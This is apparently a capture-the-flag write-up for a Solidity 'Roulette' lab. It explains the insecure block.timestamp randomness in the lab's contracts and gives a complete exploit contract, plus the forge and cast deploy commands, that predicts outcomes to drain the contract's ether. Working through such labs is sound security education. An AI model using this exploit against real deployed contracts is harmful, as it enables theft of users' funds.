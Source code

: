 In this Game, we need to have the *stolenEnough()* bool return true in order to solve the lab. &nbsp;  
&nbsp;  
```solidity
contract Setup{
    Roulette public roulette;

    constructor() payable {
        roulette = new Roulette{value: 30 ether}();
    }

    function isSolved() public view returns(bool){
        return roulette.stolenEnough();
    }
}
```
&nbsp;  
Now let's see the *Roullete Contract* &nbsp;   
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

contract Roulette{

    bool public stolenEnough = false;
    mapping(address => uint) public wonRoulette;

    modifier _kickedOut(){
        require(wonRoulette[msg.sender] <= 100, "You've stolen enough, get out!");
        _;
    }

    modifier _hasStolenEnough(){
        _;
        if(address(msg.sender).balance > 20){
            stolenEnough = true;
        }
    }

    constructor() payable {}

    function randomGenerator() internal view returns(uint256){
        return uint256(keccak256(abi.encodePacked(block.timestamp))) % 100;
    }

    function biggerRandomGenerator() internal view returns(uint256){
        return uint256(keccak256(abi.encodePacked(block.timestamp))) % 10000000;
    }

    function playRoulette(uint256 _guess) public _kickedOut{
        require(wonRoulette[msg.sender] < 5, "You cannot play this game again!");
        uint256 playerGuess = _guess;
        uint256 randomNumber = randomGenerator();
        if(randomNumber == playerGuess){
            wonRoulette[msg.sender]++;
            (bool winningMoney, ) = msg.sender.call{value: 1 ether}("");
            require(winningMoney, "Fail to claim winning money");
        }
    }

    function playBiggerRoulette(uint256 _guess) public _kickedOut _hasStolenEnough{
        require(wonRoulette[msg.sender] >= 5, "You haven't met the requirement to play the game!");
        uint256 playerGuess = _guess;
        uint256 randomNumber = biggerRandomGenerator();
        if(randomNumber == playerGuess){
            wonRoulette[msg.sender] += 50;
            (bool winningMoney, ) = msg.sender.call{value: 10 ether}("");
            require(winningMoney, "Fail to claim winning money");
        }
    }
    
}
``` 
&nbsp;  
We have 2 modifiers up there; one is *_kickOut()* that will check whether we have a score of winning about 100 or not; if we are, then we can no longer play the game. The second one is *_hasStolenEnough()* this is the one that will check after all the code in the function is complete. If the balance of the player is greater than 20 Ether,it will change the *stolenEnough* bool to true, so our goal here is to have a balance greater than 20 Ether. &nbsp;  
&nbsp;  

The first 2 functions below the constructor seem to be the generator of the source of the randomness, and it doesn't seem to be that secure since it uses a predictable, or at least we can also get that variable from the *block.timestamp*, the only difference is the modulo. Both of them are used for different functions; the *randomGenerator()* is used by *playRoullete()* and the *biggerRandomGenerator()* is used by *playBiggerRoulette()*.  &nbsp;  
&nbsp;  
So we are dealing with an insecure randomness vulnerability here. Let's see the *playRoulette()* first. If we manage to guess the correct number, we will get 1 Ether, and it adds our winning by 1, so we can only play this maximum of 5 times since when we reach 5, it will revert. The other one, *playBiggerRoullete()* seems to give more reward and won counter, but it requires us to have at least 5 wins already (so we need to play the smaller one first). If we managed to guess right, we will get 10 ether per win and it will add 50 winning point, so we can only play this twice since it has the *_kickedOut()* modifier, and it will also validate our balance by the *_hasStolenEnough()* modifier. &nbsp;  
&nbsp;  
So the attack idea here is to play the *playRoulette()* 5 times and then move to the *playBiggerRoulette()* 2 times; it will give us 25 Ether in total, more than enough to make the *stolenEnough()* become true, but we can't just play it since it has *block.timestamp* as the source of randomness, we need to make an exploit contract here; it will look like this &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "./Setup.sol";
import "./Roulette.sol";

contract exploit{
    Setup public setup;
    Roulette public roulette;

    constructor(address _setup) {
        setup = Setup(_setup);
        roulette = Roulette(setup.roulette());
    } 

    function randomGenerator() internal view returns(uint256){
        return uint256(keccak256(abi.encodePacked(block.timestamp))) % 100;
    }

    function biggerRandomGenerator() internal view returns(uint256){
        return uint256(keccak256(abi.encodePacked(block.timestamp))) % 10000000;
    }

    function playRoulette() public{
        uint256 answer = randomGenerator();
        uint256 bigAnswer = biggerRandomGenerator();
        for(uint i = 0; i < 5; i ++){
            roulette.playRoulette(answer);
        } 
        roulette.playBiggerRoulette(bigAnswer);
        roulette.playBiggerRoulette(bigAnswer);
    }

    receive() external payable { }    
}
```
&nbsp;  
Now we just need to deploy the contract and call *playRoulette()* on our smart contract to solve it. Here is how you can deploy the exploit contract. &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit Contract
forge create src/roulette/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR

// Call the playRoulette()
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "playRoulette()"
``` 
&nbsp;  
By doing the command above, deploying the contract, and calling it, you should've solved the lab!